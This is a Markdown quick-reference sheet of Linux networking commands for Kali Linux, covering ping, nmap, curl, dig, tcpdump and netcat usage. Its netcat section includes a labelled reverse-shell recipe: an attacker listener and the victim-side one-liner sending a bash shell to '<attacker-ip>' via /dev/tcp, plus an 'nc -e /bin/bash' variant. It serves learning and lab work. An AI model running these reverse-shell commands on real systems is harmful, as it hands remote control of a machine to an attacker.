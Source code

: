 # **Networking Commands - Linux Quick Reference**
Recommended OS: Kali Linux

## Table of Contents
- [Network Utilities](#network-utilities)
- [Netcat Commands](#netcat-commands)
- [Network Troubleshooting](#network-troubleshooting)

---

## Network Utilities

- **`ping`**: Test connectivity to a host.  `ping <hostname or ip>`
- **`ifconfig`**: Display network info, like IP address.  `ifconfig`
- **`netstat`**: Show network connections and statistics.  `netstat -tuln`
- **`nmap`**: Scan network for hosts and open ports, for one ip, or a range.
  ex. `nmap <ip>` or `nmap 192.168.1.1-20` or `nmap 192.168.1.0/24`
- **`curl`**: Transfer data to and from a server (HTTP, FTP).  `curl http://example.com/file.zip`
- **`route`**: View or modify the routing table.  `route -n`
- **`mtr`**: Diagnostic tool combining ping and traceroute. `mtr <hostname or ip>`

---

## Netcat Commands

- **Host listens on port**:  `nc -lvp 1234` (l-listning, v-verbose, p-port)
- **Client connects to host**:  `nc <hostname or ip> 1234`
- **Scan for certain ports in a range**: `nc -zv <hostname> 1-100` (z-scan without full connection)
- **Send file**:  
  1. Receiver (opens port & prepares to save file):  `nc -lvp 4321 > received_file.txt`  
  2. Sender (connects & sends file to receiver’s IP):  `nc <receiver_ip> 4321 < my_file.txt`
- **Reverse Shell**:  
  1. Sender/Attacker (listens for connection)::  `nc -lvp 4444`  
  2. Receiver/Victim (connects & gives interactive shell to attacker):  `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`
  - Note: On some systems use `nc -l -p 1234 -e /bin/bash`  

---

## Network Troubleshooting

- **`dig`**: Query DNS.  `dig example.com`
- **`tcpdump`**: Capture network traffic.  `sudo tcpdump -i eth0` or `sudo tcpdump src host <ip>`
- **`hostname`**: Show or set hostname.  `hostname`

---

*Created by MD Harrell*  
For more info, visit the [Kali Linux Docs](https://www.kali.org/docs/).
